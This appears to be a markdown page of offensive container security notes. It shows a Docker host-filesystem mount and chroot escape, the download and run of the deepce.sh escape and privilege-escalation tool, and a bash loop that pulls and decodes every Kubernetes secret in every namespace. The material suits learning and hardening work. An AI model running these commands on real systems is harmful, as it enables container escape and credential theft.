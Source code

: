 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging unsecure mount](#leveraging-unsecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)

## Docker

### Leveraging unsecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Unsecure mount](img/00-unsecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-unsecure-mount](#leveraging-unsecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```